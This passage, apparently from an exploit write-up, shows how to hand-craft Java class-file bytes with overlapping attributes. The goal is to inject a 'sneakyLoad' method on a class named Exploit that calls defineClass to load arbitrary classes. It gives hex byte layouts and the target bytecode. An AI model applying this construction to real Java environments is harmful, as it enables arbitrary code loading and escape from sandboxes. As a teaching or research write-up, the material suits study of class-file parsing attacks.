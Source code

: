 ```
attr1 (Code) = 0042 0500 00000010 2A 2B 2C 0557 03 2C BE 2D B6[defineClass_method] 0557 B0 00 0000 0000
attr2 (wD) = AAAAAA
attr3 (wD) = BBBBBB
attr4 (wD) = CCCCCC
attr5 (wD) = DDDDDD DD 05 00
```

and the bytes for the `sneakyLoad` method as a whole are now

```
0001 [sneakyLoad_utf] 0007 0005 
0009 0000001C 0042 0500 00000010 2A 2B 2C 0557 03 2C BE 2D B6[defineClass_method] 0557 B0 00 0000 0000 
0005 00000003 AAAAAA
0005 00000003 BBBBBB
0005 00000003 CCCCCC
0005 00000006 DDDDDD DD 05 00
```

Now, we can use a similar process for the second method, although things are easier this time around, because we have more flexibility over the start due to being preceded by the custom attribute at the end of the first method. In fact, we put a tag byte second to last _inside_ that custom attribute, meaning we can skip right over the first seven bytes of the second method (covering `access_flags`, `name_index`, `descriptor_index`, and the high byte of `attributes_count`.)

We're now at the low byte of the attribute count for `<init>`, which needs to be a tag byte, so we'll once again give it an attribute count of 5, just like the first method. In fact, we're now in the exact same position as we were in the first method, so the tag bytes after this will end up in the same position as well.

Next comes the name and attribute length for the `Code` attribute. Recall that our goal for the injected bytecode looks like this:

```
.method public sneakyLoad : (Ljava/lang/String;[BLjava/security/ProtectionDomain;)Ljava/lang/Class;
    .code stack 99 locals 99
        aload_0
        aload_1
        aload_2
        iconst_0
        aload_2
        arraylength
        aload_3
        invokevirtual Method Exploit defineClass (Ljava/lang/String;[BIILjava/security/ProtectionDomain;)Ljava/lang/Class;
        areturn
    .end code
.end method

.method public <init> : ()V
    .code stack 99 locals 99
        aload_0
        invokespecial Method java/lang/ClassLoader <init> ()V
        return
    .end code
.end method
```
